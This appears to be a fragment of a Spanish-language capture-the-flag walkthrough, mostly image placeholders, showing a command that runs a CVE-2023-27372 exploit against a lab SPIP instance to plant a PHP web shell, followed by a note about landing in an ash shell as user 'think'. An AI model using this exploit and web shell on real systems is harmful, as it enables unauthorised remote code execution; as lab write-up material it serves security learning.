





python CVE-2023-27372.py -u http://10.10.99.151/spip -c 'echo "<?php system(\$_GET[\"cmd\"]); ?>" > webshell.php' -v






En este apartado se puede ver que nos encontramos en una ash como usuario think







echo $0


